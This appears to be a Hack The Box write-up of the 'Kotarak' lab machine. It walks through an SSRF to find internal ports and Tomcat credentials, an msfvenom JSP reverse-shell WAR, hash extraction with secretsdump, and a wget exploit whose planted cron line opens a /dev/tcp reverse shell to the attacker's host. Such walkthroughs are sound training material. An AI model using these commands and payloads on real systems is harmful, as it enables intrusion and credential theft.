# HTB - Kotarak

#### Ip: 10.10.10.55
#### Name: Kotarak
#### Difficulty: Hard

----------------------------------------------------------------------



### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `sC` and `-sV` flags to use basic scripts and to enumerate versions

```text
┌──(ryan㉿kali)-[~/HTB/Kotarak]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.55 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-05 10:20 CDT
Nmap scan report for 10.10.10.55
Host is up (0.073s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2d7ca0eb7cb0a51f72e75ea02241774 (RSA)
|   256 e8f1c0d37d9b4373ad373bcbe1648ee9 (ECDSA)
|_  256 6de926ad86022d68e1ebad66a06017b8 (ED25519)
8009/tcp  open  ajp13   Apache Jserv (Protocol v1.3)
| ajp-methods: 
|   Supported methods: GET HEAD POST PUT DELETE OPTIONS
|   Potentially risky methods: PUT DELETE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
8080/tcp  open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5 - Error report
| http-methods: 
|_  Potentially risky methods: PUT DELETE
60000/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title:         Kotarak Web Hosting        
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.93 seconds
```

The Kotarak Web Hosting on port 60000 seems linteresting, lets check that out first:



Trying to enter www.hackthebox.com in the search box fowrards us to: http://10.10.10.55:60000/url.php?path=www.hackthebox.com%2F

But if we search for 10.10.10.55:22 we get the message `SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.2 Protocol mismatch. ` So it does seem that the search feature is able to query ports on its localhost address. Lets see if there are any other ports open internally.

We can do this by fuzzing the site with a list of ports that may be open on localhost. I'll use wfuzz for this:



Nice, looks like we have a few more ports to investigate now. After poking around a bit I found some interesting materials at http://10.10.10.55:60000/url.php?path=127.0.0.1%3A888



Now if we input http://127.0.0.1:888/?doc=backup into the search on port 60000 and inspect the page source we find credentials for the Tomcat service running on port 8080:



Based on past experience with Tomcat I know the login can be found at 10.10.10.55:8080/manager/html



These credentials work and we can now authenticate to the site:



### Exploitation

From here lets generate a .war reverse shell file to upload to the server:

```text
┌──(ryan㉿kali)-[~/HTB/Kotarak]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.48 LPORT=443 -f war > shell.war
Payload size: 1097 bytes
Final size of war file: 1097 bytes
```

We can upload the file and verify it loaded correctly:



Then with a NetCat listener listening, we can simply click on our shell file and catch the reverse shell back in NetCat:

```text
┌──(ryan㉿kali)-[~/HTB/Kotarak]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.48] from (UNKNOWN) [10.10.10.55] 35576
whoami
tomcat
hostname
kotarak-dmz
python -c 'import pty;pty.spawn("/bin/bash")'

tomcat@kotarak-dmz:/$
```

Trying to grab the user.txt flag from user atanas' home directory, we get a permission denied:

```text
tomcat@kotarak-dmz:/home$ ls
atanas	tomcat
tomcat@kotarak-dmz:/home$ cd atanas
tomcat@kotarak-dmz:/home/atanas$ ls
user.txt
tomcat@kotarak-dmz:/home/atanas$ cat user.txt
cat: user.txt: Permission denied
```

Looking around more we find an interesting directory called `pentest_data` which contain .dit and registry files:

```text
tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ ls -la
total 28312
drwxr-xr-x 2 tomcat tomcat     4096 Jul 21  2017 .
drwxr-xr-x 3 tomcat tomcat     4096 Jul 21  2017 ..
-rw-r--r-- 1 tomcat tomcat 16793600 Jul 21  2017 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
-rw-r--r-- 1 tomcat tomcat 12189696 Jul 21  2017 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
```

Lets copy these back to our attacking machine.

First we'll set up a Python server on the target and then use wget on our attacking machine to retrieve the files:



Now lets use impacket-secretsdump to extract some hashes



Nice, we've found a few. Lets grab the Administrator and the atanas hash and crack them in CrackStation:



Cool, that worked. Lets try to `su atanas` on the target:

```text
tomcat@kotarak-dmz:/home/atanas$ su atanas
Password: 
su: Authentication failure
tomcat@kotarak-dmz:/home/atanas$ su atanas
Password: 
atanas@kotarak-dmz:~$ whoami
atanas
```
Interestingly, the atanas password didn't work here, but the admin password did.

We can now grab the user.txt flag:



### Privilege Escalation

Looking around the machine and not seeing much, I noticed we have read access to some files in the root directory. 

```text
atanas@kotarak-dmz:/root$ ls
app.log  flag.txt
atanas@kotarak-dmz:/root$ cat app.log
10.0.3.133 - - [20/Jul/2017:22:48:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:50:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:52:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
atanas@kotarak-dmz:/root$ cat flag.txt
Getting closer! But what you are looking for can't be found here.
```

Interesting, it appears IP address 10.0.3.133 is using wget to try and access a file every 2 minutes. This must be running as a cronjob.  

Looking at exploits for this version of wget we find: https://www.exploit-db.com/exploits/40064

First we'll need to upadte the wget-exploit.py portion of the script to:

```text
HTTP_LISTEN_IP = '10.0.3.1'
HTTP_LISTEN_PORT = 80
FTP_HOST = '10.10.10.55'
FTP_PORT = 21

ROOT_CRON = "* * * * * root bash -c 'bash -i >& /dev/tcp/10.10.14.48/8888 0>&1' \n"
```

Next we'll want to get another working shell on the target (I just ran the .war file again with another listener set up).

Now lets start an ftpserver on the target:

```text
atanas@kotarak-dmz:/tmp$ authbind python -m pyftpdlib -p21 -w
```

From here lets set up a python HTTP server on our attacking machine and use wget to grab the exploit onto the target machine, and then use authbind to run it:

```text
atanas@kotarak-dmz:/tmp/...$ wget 10.10.14.48/wget-exploit.py
--2023-09-05 14:58:28--  http://10.10.14.48/wget-exploit.py
Connecting to 10.10.14.48:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2906 (2.8K) [text/x-python]
Saving to: ‘wget-exploit.py’

wget-exploit.py       0%[                    ]       0  --.-Kwget-exploit.py     100%[===================>]   2.84K  --.-KB/s    in 0s      

2023-09-05 14:58:29 (269 MB/s) - ‘wget-exploit.py’ saved [2906/2906]

atanas@kotarak-dmz:/tmp/...$ authbind python wget-exploit.py
```

With a listener set up on port 8888, we will eventually catch a shell back as the root user, and we can grab the final flag:



Thanks for following along!

-Ryan
